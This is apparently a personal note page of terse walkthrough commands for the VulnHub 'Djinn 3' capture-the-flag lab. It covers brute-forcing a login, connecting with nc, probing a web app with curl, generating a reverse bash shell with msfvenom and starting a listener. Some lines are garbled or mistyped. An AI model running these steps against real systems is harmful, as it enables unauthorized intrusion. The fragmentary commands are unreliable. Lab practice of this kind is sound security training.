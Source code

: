 ```yaml
---
{"dg-publish":true,"permalink":"/exploit-from-kali/djinn-3-walkthrough/","tags":["walkthrought","vulnhub"]}
---
```



	#apt install html2text
	#apt install pwn
	host id 192.168.0.105
	port 80 
	5000 python web server
	31337
	git clone  djinn3 walkthrought address
	
	nano brute forcing.py
	change host name to 192.168.0.105
	python3 Brute\ forcing.py
	
	#brute forcing open guest : guest
	nc 192.168.0.105 31337
	help
	open
	y3kh
	y3khexit
	curl -s http://192.168.0.105:5000/ | html2text
	curl -s http://192.168.0.105:5000/?id-3606
	sudo msfvenom -p cmd/unix/reverse_bash lhost=192.168.0.105 lport=4444 -f raw -o revshell.sh
	
	lv -lvnp 4444